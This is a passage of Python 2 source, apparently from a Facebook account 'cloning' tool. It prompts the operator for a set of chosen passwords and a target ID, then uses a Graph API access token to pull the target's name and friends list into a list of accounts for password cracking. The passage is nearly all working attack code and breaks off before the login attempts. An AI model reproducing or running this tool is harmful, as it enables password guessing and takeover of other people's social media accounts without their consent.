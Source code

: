         ps11 = raw_input('[11] Digit : ')
        ps12 = raw_input('[12] Digit : ')
        ps13 = raw_input('[13] Digit : ')
        ps14 = raw_input('[14] Digit : ')
        ps15 = raw_input('[15] Digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     CHOICE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '2':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        ps = raw_input('[1] Digit : ')
        ps2 = raw_input('[2] Digit : ')
        ps3 = raw_input('[3] Digit : ')
        ps4 = raw_input('[4] Digit : ')
        ps5 = raw_input('[5] Digit : ')
        ps6 = raw_input('[6] Digit : ')
        ps7 = raw_input('[7] Digit : ')
        ps8 = raw_input('[8] Digit : ')
        ps9 = raw_input('[9] Digit : ')
        ps10 = raw_input('[10] Digit : ')
        ps11 = raw_input('[11] Digit : ')
        ps12 = raw_input('[12] Digit : ')
        ps13 = raw_input('[13] Digit : ')
        ps14 = raw_input('[14] Digit : ')
        ps15 = raw_input('[15] Digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        